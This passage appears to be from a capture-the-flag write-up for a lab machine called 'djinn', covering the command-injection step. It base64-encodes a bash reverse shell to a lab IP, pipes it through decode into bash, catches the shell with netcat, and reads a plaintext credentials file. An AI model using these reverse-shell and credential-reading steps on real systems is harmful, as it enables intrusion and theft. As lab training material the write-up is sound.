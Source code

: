
## Exploitation
### Command Injection

Since it's not possible execute commands directly, we need to base64 encode our reverse shell.

```console
root@kali:~$ echo "bash -i >& /dev/tcp/192.168.179.1/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3OS4xLzQ0MyAwPiYxCg==
```

We first need set up a netcat listener on port 443, then we copy our reverse shell encoded and paste it into the textbox along with the echo command, piping it to decode it and piping it to execute it with bash.

```console
root@kali:~$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3OS4xLzQ0MyAwPiYxCg==" | base64 -d | bash
```

![](/assets/images/djinn/screenshot-5.png)

And we have a shell with www-data user permissions.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.143] 37832
bash: cannot set terminal process group (652): Inappropriate ioctl for device
bash: no job control in this shell
www-data@djinn:/opt/80$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Into the directory **/home/nitish/.dev** I found credentials for the nitish user.

```console
www-data@djinn:/home/nitish/.dev$ ls
ls
creds.txt
www-data@djinn:/home/nitish/.dev$ cat creds.txt
cat creds.txt
nitish:p4ssw0rdStr3r0n9
```
